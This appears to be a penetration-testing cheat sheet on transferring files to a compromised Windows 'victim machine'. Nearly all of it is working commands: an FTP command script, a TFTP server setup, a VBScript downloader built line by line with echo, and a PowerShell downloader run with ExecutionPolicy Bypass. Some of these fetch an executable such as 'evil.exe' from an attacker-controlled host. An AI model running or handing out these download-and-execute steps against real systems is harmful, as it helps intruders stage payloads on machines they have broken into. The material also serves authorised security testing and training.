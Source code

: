 # Windows basics

## Transferring files

Why is this so much harder in Windows? I don't know.

## FTP

Even though many Windows versions have FTP clients, we can't use them interactively because it will kill shells. But we can run multiple commands from a file:  

On the victim machine, echo the following commands into a file:

```text
echo open [host] 21> ftp.txt
echo USER username>> ftp.txt
echo password>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect:

```text
ftp -v -n -s:ftp.txt
```

## TFTP

TFTP is installed by default on Windows XP and Windows 2003. Kali also has a TFTP server:

```text
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

With this command you can serve files from `/srv/tftp`.

From a Windows machine, use this to transfer files:

```text
tftp -i [host] GET wget.exe
```

### VBScript

Here is a good script to make a wget-clone in VB \(may need to be piped through unix2dos before copying it\):

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

To execute:

```text
cscript wget.vbs http://[hoste]/evil.exe evil.exe
```

### Powershell

Powershell can't be started in a non-interactive shell. But this script can start it:

```text
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[host]/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

To execute:

```text
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

